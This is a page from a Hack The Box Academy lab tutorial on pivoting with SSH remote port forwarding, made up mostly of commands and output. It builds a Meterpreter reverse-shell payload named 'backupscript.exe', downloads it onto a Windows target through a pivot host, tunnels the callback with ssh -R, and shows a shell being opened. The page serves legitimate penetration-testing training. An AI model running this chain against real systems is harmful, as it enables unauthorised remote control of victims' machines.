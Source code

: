 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/158/section/1427
// Platform Version: V1
// Module ID: 158
// Module Name: Pivoting, Tunneling, and Port Forwarding
// Module Difficulty: Medium
// Section ID: 1427
// Section Title: Remote/Reverse Port Forwarding with SSH
// Page Title: Pivoting, Tunneling, and Port Forwarding
// Page Number: 04
-->

# Remote/Reverse Port Forwarding with SSH

**Module Name:** Pivoting, Tunneling, and Port Forwarding **Page Number:** 04

#### PIVOTING, TUNNELING, AND PORT FORWARDING

# Remote/Reverse Port Forwarding with SSH

![https://academy.hackthebox.com/storage/modules/158/33.png](https://academy.hackthebox.com/storage/modules/158/33.png)

#### Creating a Windows Payload with msfvenom

``` shell-session
[!bash!]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 712 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

#### Configuring & Starting the multi/handler

``` shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

#### Transferring Payload to Pivot Host

``` shell-session
[!bash!]$ scp backupscript.exe ubuntu@<ipAddressofTarget>:~/

backupscript.exe                                   100% 7168    65.4KB/s   00:00
```

#### Starting Python3 Webserver on Pivot Host

``` shell-session
ubuntu@Webserver$ python3 -m http.server 8123
```

#### Downloading Payload from Windows Target

``` powershell-session
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

#### Using SSH -R

``` shell-session
[!bash!]$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

#### Viewing the Logs from the Pivot

``` shell-session
ebug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61355
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=5
debug1: channel 1: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: free: 172.16.5.19, nchannels 2
debug1: channel 1: connected to 0.0.0.0 port 8000
debug1: channel 1: free: 172.16.5.19, nchannels 1
debug1: client_input_channel_open: ctype forwarded-tcpip rchan 2 win 2097152 max 32768
debug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61356
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=4
debug1: channel 0: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: connected to 0.0.0.0 port 8000
```

#### Meterpreter Session Established

``` shell-session
[*] Started HTTPS reverse handler on https://0.0.0.0:8000
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (127.0.0.1:8000 -> 127.0.0.1 ) at 2022-03-02 10:48:10 -0500

meterpreter > shell
Process 3236 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>
```

![https://academy.hackthebox.com/storage/modules/158/44.png](https://academy.hackthebox.com/storage/modules/158/44.png)

# 

# 

#### Questions

####